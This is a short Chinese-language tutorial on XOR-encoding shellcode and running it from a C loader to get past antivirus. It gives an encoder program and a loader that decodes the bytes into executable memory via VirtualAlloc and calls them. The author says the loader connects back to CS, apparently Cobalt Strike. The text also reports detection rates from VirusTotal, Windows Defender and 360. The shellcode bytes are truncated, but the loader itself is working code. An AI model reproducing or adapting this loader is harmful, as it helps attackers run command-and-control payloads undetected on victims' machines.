



使用VS2019编译如下C代码，对shellcode进行异或编码，修改变量a的值即修改shellcode
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfa\xee\x8f\x6\x6\x6\x66\x8f...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8((volatile char*)buf + i, 6);
    }
    char* old = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译后会被Windows Defender查杀，关闭Windows Defender，能成功连接到CS

在VirusTotal上的检出率是29/67，如下图  
  
提示360不能检测出来，如下图  
  
但实际在一台物理机上测试发现，是能被检测的，如下图  
  

